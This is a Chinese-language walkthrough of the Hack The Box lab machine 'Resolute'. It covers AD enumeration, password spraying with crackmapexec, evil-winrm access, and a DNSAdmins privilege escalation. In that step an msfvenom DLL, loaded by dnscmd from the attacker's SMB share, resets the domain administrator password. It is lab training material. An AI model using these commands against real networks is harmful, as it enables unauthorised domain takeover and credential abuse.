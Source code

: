 ```yaml
---
description: Medium / 枚举 / DNSadmins提权
---
```


# ✔️ Resolute

## 建立立足点

### 信息收集

* 使用Nmap对目标系统进行开放端口扫描：

```bash
nmap -sC -sV -p- -oA resolute 10.129.176.63 --open
```

<figure><img src="../../.gitbook/assets/1 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/2 (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Nmap扫描结果中已获得了目标域名：<mark style="color:red;">**megabank.local**</mark>&#x20;

<figure><img src="../../.gitbook/assets/3 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/4 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 因为没有任何Web页面的开放端口，所以直接进行针对SMB/RPC服务的一系列的匿名登录操作，看看是否可以找到些什么信息：

```bash
# 可以成功的匿名登录，但是没有任何信息返回：
smbclient -N -L 10.129.176.63
smbmap -H 10.129.176.63
nmap --script smb-vuln* -p 139,445 10.129.176.63
rpcclient 10.129.176.63
rpcclient -U '' 10.129.176.63
```

<figure><img src="../../.gitbook/assets/5 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/7 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/6 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 之前一直没啥大用的enum4linux这次表现不错，收集到了很多有用的信息，如目标上所有的用户名还有密码策略：

```bash
enum4linux 10.129.176.63
```

<figure><img src="../../.gitbook/assets/8 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/9 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
后面复盘时意识到，此处密码策略中的Account Lockout Threshold: None，这意味着可以是用密码暴破而不用担心账户被锁定，是否有意引导我进“兔子洞”？！因为本例中的所有凭证都无需暴破。
{% endhint %}

* 在enum4linux的输出结果中，就已经找到了一个有效凭证：<mark style="color:red;">**Marko Novak : Welcome123!**</mark>

<figure><img src="../../.gitbook/assets/11 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 将刚刚收集到的所有用户名全部整理成一份username.txt文件，待后续使用：

<figure><img src="../../.gitbook/assets/10 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 用Kerbrute先过一遍这个username列表，看看哪些用户名是域内有效的。29个用户名25个有效，太多了，看起来不太对，应该不是这么用的：

```bash
./kerbrute_linux_amd64 username --dc 10.129.176.63 -d megabank.local username.txt
```

<figure><img src="../../.gitbook/assets/12 (7).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/13 (7).png" alt=""><figcaption></figcaption></figure>

* 使用crackmapexec和刚才收集到的有效凭证登录一下目标系统的SMB服务：

```bash
crackmapexec smb 10.129.96.155 -u marko -p 'Welcome123!'
```

<figure><img src="../../.gitbook/assets/14 (6).png" alt=""><figcaption></figcaption></figure>

```bash
evil-winrm -i 10.129.96.155 -u marko -p Welcome123!
```

<figure><img src="../../.gitbook/assets/17 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 几次尝试确认自己没有输错后，发现该账户确实登录不上去，决定密码喷洒来找出是否还有其他用户账号也是用的这个密码：

```bash
crackmapexec smb 10.129.96.155 -u username.txt -p 'Welcome123!'
```

<figure><img src="../../.gitbook/assets/15 (7).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/16 (5).png" alt=""><figcaption></figcaption></figure>

* 找到了一个新的有效凭证：<mark style="color:red;">**melanie:Welcome123!**</mark>

### GET SHELL

* 使用evil-winrm和新的凭证登录成功：

```bash
evil-winrm -i 10.129.96.155 -u melanie -p Welcome123!
```

<figure><img src="../../.gitbook/assets/18 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/19 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息收集

* 简单手动枚举无果后，决定上传winPEAS进行信息收集：

<figure><img src="../../.gitbook/assets/20 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/21 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* winPEAS也没什么收获，上传sharphound收集，用bloodhound分析：

<figure><img src="../../.gitbook/assets/22 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/23 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/24 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 至此，仍然无任何明显收获，应该是方向错了。决定从头开始枚举，列出了之前忽略掉的隐藏目录PSTranscripts：

```powershell
dir -force
```

<figure><img src="../../.gitbook/assets/25 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 找到了一个txt文件，查看后貌似是一个日志记录的文件，是关于用户ryan的：

<figure><img src="../../.gitbook/assets/27 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 同时也在这个txt文件中发现了用户<mark style="color:red;">**ryan**</mark>的登录凭证：<mark style="color:red;">**Serv3r4Admin4cc123!**</mark>

<figure><img src="../../.gitbook/assets/28 (1).png" alt=""><figcaption></figcaption></figure>

* 使用该凭证登录ryan账户后，枚举一下这个ryan的相关信息：

<figure><img src="../../.gitbook/assets/29 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/30 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/31 (1).png" alt=""><figcaption></figcaption></figure>

* 在ryan账户下，发现了一个note.txt文档，像是一个备忘录之类的文档，没看出什么实际作用：

<figure><img src="../../.gitbook/assets/32 (1).png" alt=""><figcaption></figcaption></figure>

### ROOT

* 至此无法再继续下去，看提示后知道此处是DNSadmins滥用导致的提权攻击，才注意到ryan账户是DNSadmins组的成员账户，而该组成员是有权向目标DNS写入文件的。
* 使用msfvenom制作一个DLL文件，其中包含了自定义的administrator的登录密码，然后在kali本地开启smbserver：

```bash
msfvenom -p windows/x64/exec cmd='net user administrator fiii123 /domain' -f dll > resolute.dll
```

<figure><img src="../../.gitbook/assets/33 (1).png" alt=""><figcaption></figcaption></figure>

```bash
# 开启smbserver:
python3 smbserver.py share ./
```

<figure><img src="../../.gitbook/assets/35 (1).png" alt=""><figcaption></figcaption></figure>

* 在目标系统上下载这个DLL文件，重启一下DNS服务，该DLL文件即可生效：

```bash
cmd /c dnscmd localhost /config /serverlevelplugindll \10.10.16.12\share\resolute.dll
```

<figure><img src="../../.gitbook/assets/34 (1).png" alt=""><figcaption></figcaption></figure>

* 使用psexec.py和刚才自定义的新的administrator的密码登录后，成功ROOT：

<figure><img src="../../.gitbook/assets/36 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/37 (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
本例Get Shell阶段不难，常规的信息收集之后就能拿到。提权阶段涉及到了我的盲点，第一次遇到DNSadmins提权，查阅了一些提示和技术解析的文章后，成功root。

(本例机器中途重置过，因此IP地址有所改变，但不影响其利用过程和结果)
{% endhint %}




